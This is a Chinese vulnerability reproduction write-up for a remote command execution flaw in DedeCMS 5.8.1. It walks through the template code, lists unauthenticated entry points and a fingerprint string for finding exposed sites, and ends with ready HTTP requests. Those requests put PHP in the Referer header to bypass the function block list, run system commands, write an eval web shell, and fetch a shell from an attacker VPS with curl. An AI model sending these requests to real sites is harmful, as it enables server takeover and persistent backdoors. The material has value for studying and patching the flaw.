









DedeCMS 5.8.1 common.func.php 远程命令执行漏洞¶
漏洞描述¶
DocCMS flink.php 文件存远程命令执行漏洞，攻击者通过漏洞可以执行任意命令
漏洞影响¶
DedeCMS v5.81 beta 内测版
网络测绘¶
"DedeCMS_V5.8.1"
漏洞复现¶
产品页面

查看文件 include/common.func.php 的 ShowMsg方法

function ShowMsg($msg, $gourl, $onlymsg = 0, $limittime = 0)
{
if (empty($GLOBALS['cfg_plus_dir'])) {
$GLOBALS['cfg_plus_dir'] = '..';
}
if ($gourl == -1) {
$gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';
if ($gourl == "") {
$gourl = -1;
}
}
$htmlhead = "
<html>\r\n<head>\r\n<title>DedeCMS提示信息</title>\r\n
<meta http-equiv=\"Content-Type\" content=\"text/html; charset={dede:global.cfg_soft_lang/}\" />
<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no\">
<meta name=\"renderer\" content=\"webkit\">
<meta http-equiv=\"Cache-Control\" content=\"no-siteapp\" />
<link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/pkg/uikit/css/uikit.min.css\" />
<link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/css/manage.dede.css\">
<base target='_self'/>
</head>
<body>
" . (isset($GLOBALS['ucsynlogin']) ? $GLOBALS['ucsynlogin'] : '') . "
<center style=\"width:450px\" class=\"uk-container\">
<div class=\"uk-card uk-card-small uk-card-default\" style=\"margin-top: 50px;\">
<div class=\"uk-card-header\" style=\"height:20px\">DedeCMS 提示信息！</div>
<script>\r\n";
$htmlfoot = "
</script>
</center>
<script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit.min.js\"></script>
<script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit-icons.min.js\"></script>
</body>\r\n</html>\r\n";
$litime = ($limittime == 0 ? 1000 : $limittime);
$func = '';
if ($gourl == '-1') {
if ($limittime == 0) {
$litime = 3000;
}
$gourl = "javascript:history.go(-1);";
}
if ($gourl == '' || $onlymsg == 1) {
$msg = "<script>alert(\"" . str_replace("\"", "“", $msg) . "\");</script>";
} else {
//当网址为:close::objname 时, 关闭父框架的id=objname元素
if (preg_match('/close::/', $gourl)) {
$tgobj = trim(preg_replace('/close::/', '', $gourl));
$gourl = 'javascript:;';
$func .= "window.parent.document.getElementById('{$tgobj}').style.display='none';\r\n";
}
$func .= "var pgo=0;
function JumpUrl(){
if(pgo==0){ location='$gourl'; pgo=1; }
}\r\n";
$rmsg = $func;
$rmsg .= "document.write(\"<div style='height:130px;font-size:10pt;background:#ffffff'><br />\");\r\n";
$rmsg .= "document.write(\"" . str_replace("\"", "“", $msg) . "\");\r\n";
$rmsg .= "document.write(\"";
if ($onlymsg == 0) {
if ($gourl != 'javascript:;' && $gourl != '') {
$rmsg .= "<br /><a href='{$gourl}'>如果你的浏览器没反应，请点击这里...</a>";
$rmsg .= "<br/></div>\");\r\n";
$rmsg .= "setTimeout('JumpUrl()',$litime);";
} else {
$rmsg .= "<br/></div>\");\r\n";
}
} else {
$rmsg .= "<br/><br/></div>\");\r\n";
}
$msg = $htmlhead . $rmsg . $htmlfoot;
}
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
$tpl->Display();
}
/**
* 获取验证码的session值
*
* @return string
*/

这里注意到 当 $gourl 变量为 -1 时调用 ShowMsg方法, 则请求参数 Referer 为用户可控参数

向下看，可以发现可控的变量传入两个方法
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
$tpl->Display();
追踪方法来到 include/dedetemplate.class.php 文件

ParseTemplate() 则是模版渲染的方法，再往下看
public function Display()
{
global $gtmpfile;
extract($GLOBALS, EXTR_SKIP);
$this->WriteCache();
include $this->cacheFile;
}
追踪一下 WriteCache() 方法

看 GetResult() 方法 和 CheckDisableFunctions() 方法
public function GetResult()
{
if (!$this->isParse) {
$this->ParseTemplate();
}
$addset = '';
$addset .= '<' . '?php' . "\r\n" . 'if(!isset($GLOBALS[\'_vars\'])) $GLOBALS[\'_vars\'] = array(); ' . "\r\n" . '$fields = array();' . "\r\n" . '?' . '>';
return preg_replace("/\?" . ">[ \r\n\t]{0,}<" . "\?php/", "", $addset . $this->sourceString);
}
public function CheckDisabledFunctions($str, &$errmsg = '')
{
global $cfg_disable_funs;
$cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';
// 模板引擎增加disable_functions
if (!defined('DEDEDISFUN')) {
$tokens = token_get_all_nl($str);
$disabled_functions = explode(',', $cfg_disable_funs);
foreach ($tokens as $token) {
if (is_array($token)) {
if ($token[0] = '306' && in_array($token[1], $disabled_functions)) {
$errmsg = 'DedeCMS Error:function disabled "' . $token[1] . '" <a href="http://help.dedecms.com/install-use/apply/2013/0711/2324.html" target="_blank">more...</a>';
return false;
}
}
}
}
return true;
}
GetResult() 方法执行后返回的结果通过 CheckDisabledFunctions() 方法过滤后 经过Display() 的 include $this->cacheFile;
public function Display()
{
global $gtmpfile;
extract($GLOBALS, EXTR_SKIP);
$this->WriteCache();
include $this->cacheFile;
}
此时我们就可以通过控制 Referer请求头，来控制模版的渲染，绕过 CheckDisabledFunctions)方法的过滤 造成远程命令执行

通过正则找到受影响且无需身份认证的文件，来进行命令执行
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
........

这里利用没有过滤的双引号绕过 disables 禁止的函数

漏洞请求包
GET /plus/flink.php?dopost=save HTTP/1.1
Host:
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: <?php "system"(ls);?>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
GET /plus/flink.php?dopost=save&c=whoami HTTP/1.1
Host:
Referer: <?php "system"($c);die;/*
GET /DedeCMS-5.8.1/plus/flink.php?dopost=save&c=<?php%20eval($_POST[1]);?> HTTP/1.1
Host:
Referer: <?php "file_put_contents"('shell.php',$c);?>
GET /DedeCMS-5.8.1/plus/flink.php?dopost=save&c=curl%20http://<YOUR-VPS-IP>:<YOUR-VPS-PORT>/shell.php%20--output%20shell.php HTTP/1.1
Host:
Referer: <?php "system"($c);die;/*